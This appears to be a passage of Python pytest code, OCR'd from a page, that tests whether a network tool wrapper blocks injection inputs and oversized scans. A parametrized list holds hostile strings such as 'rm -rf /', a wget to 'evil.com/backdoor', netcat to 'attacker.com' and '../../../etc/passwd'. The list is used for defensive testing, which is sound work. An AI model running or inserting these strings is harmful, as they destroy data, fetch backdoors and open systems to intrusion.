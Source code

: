```markdown
    @pytest.mark.parametrize("malicious_input", [
        # Command injection attempts
        "; rm -rf /",
        "& wget evil.com/backdoor",
        "| nc attacker.com 1234",
        "`whoami`",
        "$(curl evil.com)",
        
        # Path traversal
        "../../../etc/passwd",
        "..\\..\\..\\windows\\system32",
        
        # Null bytes
        "\x00",
        "valid\x00malicious",
        
        # Shell metacharacters
        "$VAR",
        "${SHELL}",
        "\\n",
        "\\r",
    ])
    @pytest.mark.asyncio
    async def test_injection_prevention(self, tool, malicious_input):
        """Test that injection attempts are blocked."""
        try:
            # Should fail validation
            inp = ToolInput(
                target="192.168.1.1",
                extra_args=malicious_input
            )
            result = await tool.run(inp)
            
            # If it somehow passes, should have error
            assert result.error is not None
        except ValueError:
            # Expected: validation should raise ValueError
            pass
    
    @pytest.mark.asyncio
    async def test_resource_limits_enforced(self, tool):
        """Test that resource limits prevent abuse."""
        # Attempt to consume excessive resources
        inp = ToolInput(
            target="192.168.1.0/16",  # Very large network
        )
        result = await tool.run(inp)
        
        # Should be rejected or limited
        assert result.error is not None or result.timed_out
Load Tests
Concurrent Execution Test:

Python

@pytest.mark.asyncio
@pytest.mark.slow
async def test_concurrent_load(tool):
    """Test behavior under load."""
    num_requests = 100
    
    async def make_request(i):
        inp = ToolInput(target=f"192.168.1.{i % 254 + 1}")
```